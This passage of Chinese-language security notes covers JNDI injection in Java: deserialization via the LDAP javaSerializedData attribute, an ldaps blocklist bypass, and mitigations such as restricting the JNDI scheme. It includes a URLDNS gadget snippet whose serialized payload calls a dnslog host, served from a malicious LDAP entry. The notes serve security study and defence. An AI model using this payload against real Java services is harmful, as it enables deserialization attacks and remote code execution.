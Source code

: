 #### MemoryUserDatabaseFactory写文件  
https://srcincite.io/blog/2024/07/21/jndi-injection-rce-via-path-manipulation-in-memoryuserdatabasefactory.html  
### 反序列化触发本地Gadget
#### com.sun.jndi.ldap.decodeObject#javaSerializedData
反序列化是因为LDAP在解码的时候如果含有`javaSerializedData`属性,那么会对其进行反序列化操作,所以可以通过这个点进行反序列化攻击.  
![](img/2023-02-21-16-02-28.png)  
修改ldap服务器吗,在返回的Entry中添加`javaSerializedData`属性.
```java
 ByteArrayOutputStream bytes = new ByteArrayOutputStream();
            ObjectOutputStream serial = new ObjectOutputStream(bytes);
            HashMap map = new HashMap();
            URL url = new URL("http://sdsda.dnslog.cn/");
            Class clas = Class.forName("java.net.URL");
            Field field = clas.getDeclaredField("hashCode");
            field.setAccessible(true);
            field.set(url,123);
            map.put(url,"2333");
            field.set(url,-1);
            serial.writeObject(map);
            ...
            ...
            e.addAttribute("javaSerializedData", bytes.toByteArray());
```
![](img/2023-02-21-16-10-25.png)
## 黑名单关键字Bypass through ldaps
https://www.leavesongs.com/PENETRATION/use-tls-proxy-to-exploit-ldaps.html
## 修复方案
### 使用高版本JDK.
### 限制出网环境,限制服务器能访问公网(白名单)的范围.
### 过滤本地恶意Facotry.对高版本的JNDI利用可以在内部对Factory类做黑名单过滤.
### 限制协议,只允许java协议
```java
        URI uri = new URI("ldap://127.0.0.1:1389");
        String scheme = uri.getScheme();
        assertTrue(scheme == null || scheme.equals("java"), "Unsupported JNDI URI: ");
        System.out.println(scheme);
```  
## 参考  
https://docs.oracle.com/javase/tutorial/jndi/  
https://paper.seebug.org/1091/#weblogic-rmi    
https://blog.csdn.net/li_w_ch/article/details/110114397    
https://xz.aliyun.com/t/7079  
https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf  
https://kingx.me/Exploit-Java-Deserialization-with-RMI.html